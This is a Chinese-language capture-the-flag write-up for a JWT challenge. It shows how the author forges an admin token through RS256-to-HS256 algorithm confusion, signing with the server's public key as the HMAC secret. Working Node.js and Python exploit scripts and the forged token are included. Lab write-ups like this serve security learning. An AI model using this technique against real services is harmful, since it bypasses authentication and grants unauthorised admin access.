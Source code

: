 # JWT

此题考验对jwt的了解和jwt在开发应用中的错误应用
JWT是可以进行对称加密和非对称加密的
根据题意狸猫换太子，猜测可能是替换类型的题，在查看web资源时发现了一个`publicKey.pem`猜测估计后台使用的是非对称加密
![picture 2](https://libget.com/gkirito/blog/image/2021/image-20210302KCnvSt9e%402x.png)  
先把这个公钥下载下来，然后登录尝试后发现，随便普通登录都可，但是无法看到flag，需要管理员权限登录。
检查cookies发现了一个token
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiY3VzdG9tZXIiLCJpYXQiOjE2MTQ2NTMwMjh9.mgZbF8xpjdn-wcELV0lxDFUe_FP7Odfi4hz1qRf993-KnKwxW7igDx__e89MJnlT3vPhthE6g5zn5XXYW-UcNaof7NZgcCIv0j--jKhdVlefEFgBQFCWCTQMdnrYQTibsLhwZ6VrCQAnfqWlFm2Byig1H8jO0Km0T5Xwtx_KLMwJkvKL65NInh6RSLeB5eyp7R3YXBaejahJEUPigjlhb4xvmnEHbfgUVF3FIDsdfdyLu1R7tLe2AjSZH-d1xLK8hONBDqX9y3yOci_KHA8DaXwRvntwhtd5DlRYGeCk8AHcLZgPI5Jrw8UKPyAUKCTnOlV12_Lu2ad3X9KvYr0yNQ
``` 
解析后得到
``` json
{
    "alg": "RS256",
    "typ": "JWT"
}
{
    "iat": 1614653028,
    "role": "customer"
}
```
可以发现之前的猜测对了，是RS256的非对称加密，并且payload中role为customer，所以我们可以修改role为管理员，来绕过。但是JWT第三部分的验证需要重新签名，由于我们没有私钥无法实现RS256签名，但是考虑到题意的狸猫换太子，猜测可能后台的JWT校验支持对称解密，对称加密密钥可能直接用公钥来当secret了

根据以上思路，我们可以构建这样一个payload
``` json
{
    "alg": "HS256",
    "typ": "JWT"
}
{
    "iat": 1614653028,
    "role": "admin"
}
```
将role设置为admin，并在header部分设置加密为对称加密，然后我们编写脚本，使用jwt进行生成token，`HS256`对称加密的secret就用公钥`publicKey.pem`

nodejs exp：
``` js
const jwt = require('jsonwebtoken')
const fs = require('fs')
const publicKey = fs.readFileSync(__dirname + '/publicKey.pem')

const token = jwt.sign({ role: 'admin', "iat": 1614653028 }, publicKey, { algorithm: 'HS256' })
console.log(token)
```
需要一个`jsonwebtoken`的依赖，可以通过yarn或者npm添加一下
``` shell
yarn add jsonwebtoken
#或者
npm i jsonwebtoken -d
```

python exp：
``` python
import jwt
with open('./src/public/keys/publicKey.pem', 'rb') as publickfile:
    p = publickfile.read()
print(p)
encoded = jwt.encode({
    "role": "admin",
    "iat": 1614653028
}, p, algorithm="HS256")
print(encoded)
```
python环境
```
pyjwt==0.4.3
```

通过exp生成token，替换cookies中token的JWT内容，再次刷新网页
成功拿到flag
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2MTQ2NTMwMjh9.ztPcWw3ZNy5dElKN1Q4y-dgc4r8M804oCTrgKbNDZbo
```

![picture 3](https://libget.com/gkirito/blog/image/2021/image-20210302HY67485j%402x.png)  

